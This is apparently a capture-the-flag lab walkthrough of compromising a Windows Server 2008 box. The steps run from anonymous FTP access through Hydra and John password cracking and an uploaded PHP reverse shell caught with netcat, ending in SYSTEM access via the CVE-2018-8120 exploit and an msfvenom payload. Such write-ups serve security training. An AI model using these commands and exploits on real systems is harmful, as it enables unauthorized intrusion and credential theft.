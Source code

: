 Nmap scan:

![e731e835217c3e7df869fc31e9398c5b.png](../../../../_resources/e731e835217c3e7df869fc31e9398c5b.png)

Try anonymous ftp login (anonymous/anonymous):
`ftp 192.168.112.46`
![53ebf54f61cd3caf655502d8e96c0400.png](../../../../_resources/53ebf54f61cd3caf655502d8e96c0400.png)

View files:

![a490dccba8ecbcc6c26d71ec20040c52.png](../../../../_resources/a490dccba8ecbcc6c26d71ec20040c52.png)

Find account names here:

![9ea17a4d5fc4b3d9b944237388204538.png](../../../../_resources/9ea17a4d5fc4b3d9b944237388204538.png)

Seeing offsec, admin, and anonymous accounts. Decided to try to log into offsec and admin accounts using ftp with no password and with anonymous password. Didn't work. Finally tried to log into admin with admin and it worked. However, another guide points to port 242 where a login screen is shown:

![a55c16776cf7dcacc596bfd2097a2af6.png](../../../../_resources/a55c16776cf7dcacc596bfd2097a2af6.png)

Brute force this login using Hydra:

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.112.46 ftp –V -f`
Find password admin for account admin.

Now log into ftp using admin/admin to view more files:
![e63a399e2d32b53b37ed63b44d96fe7e.png](../../../../_resources/e63a399e2d32b53b37ed63b44d96fe7e.png)
See .htaccess and .htpasswd files:
![c829d226622d337e40e8b75d3eee281f.png](../../../../_resources/c829d226622d337e40e8b75d3eee281f.png)
Download files from ftp server:
`get [file_name]`

View files:
![baa06727a837fb3dfaad9f77f62a66c3.png](../../../../_resources/baa06727a837fb3dfaad9f77f62a66c3.png)
Translate:
![2439f1339a0eedecd1a80b08667fc0b6.png](../../../../_resources/2439f1339a0eedecd1a80b08667fc0b6.png)

View other file:
![fee8fbf6dd2f42ac07b9855e1eea0ab5.png](../../../../_resources/fee8fbf6dd2f42ac07b9855e1eea0ab5.png)

Use John to crack password with rockyou.txt:
`john --wordlist rockyou.txt .htpasswd`
![51602230b44f192765009aa59e541dc8.png](../../../../_resources/51602230b44f192765009aa59e541dc8.png)
Password for offsec account is elite. Use this to log into website at port 242:
![f54a28c17b374285f0dbee9a252b5271.png](../../../../_resources/f54a28c17b374285f0dbee9a252b5271.png)

Now I can upload a reverse shell onto the website. Site uses php as shown below, so find a reverse shell payload for Windows (AuthBy is a Windows box):
![1c0a32ceb8c5ee780bcb2a61b9cbb8dc.png](../../../../_resources/1c0a32ceb8c5ee780bcb2a61b9cbb8dc.png)
This windows reverse shell worked well:
https://github.com/Dhayalanb/windows-php-reverse-shell

Edit shellcode with attacker IP and port (used 8080). Upload onto the target using the ftp access with admin user:
`put shell.php`

Start netcat listener on port specified in shell.php (8080)
`nc -nlvp 8080`
Append shell.php to website from before (at port 242)
`http://192.168.112.46/shell.php`

This didn't work and I found out it's because of the tmp directory specified by default in that shell.php code. Modifying the $tmpdir variable to set it to C:\\wamp\\www fixes the issue
![182dc4eceef8df1da9e75908e6338ef5.png](../../../../_resources/182dc4eceef8df1da9e75908e6338ef5.png)

Make the change and rerun the exploit. Netcat returns a shell on the device:
![38743f30729c08458f8928ca31e017ed.png](../../../../_resources/38743f30729c08458f8928ca31e017ed.png)

Check logged in user:
![21b8d1231e2334de4b141b31acfeb14d.png](../../../../_resources/21b8d1231e2334de4b141b31acfeb14d.png)

Find user flag in user desktop directory.

Find out more info about the system:
`systeminfo`
![8ce82ce39f0c255ed85666ddc655a61d.png](../../../../_resources/8ce82ce39f0c255ed85666ddc655a61d.png)

Now looks for exploit for Server 2008 not using metasploit. Found https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120
This exploit allows a user on a system vulnerable to this exploit to start a new process as SYSTEM. This process can be used to to trigger a windows reverse shell payload.

Download the CVE-2018-8120 exploit. Save as exploit.exe.

Generate windows reverse shell payload named priv.exe using msfvenom:
![feb4fb1172fed0cf9d6ed70ececac2a6.png](../../../../_resources/feb4fb1172fed0cf9d6ed70ececac2a6.png)

Set up another listener specifying the same port from the windows msfvenom payload (using port found in nmap scan):
`nc -nlvp 3145`

Now use the exploit.exe to trigger the windows reverse shell payload:
![cad98fbdad05a7ee579b59415da7d3a2.png](../../../../_resources/cad98fbdad05a7ee579b59415da7d3a2.png)

Get a new shell back at the nc listener on port 3145 on the attack machine:
![f04f3984075820bdd7be054411a82614.png](../../../../_resources/f04f3984075820bdd7be054411a82614.png)

Find root flag in administrator desktop folder!
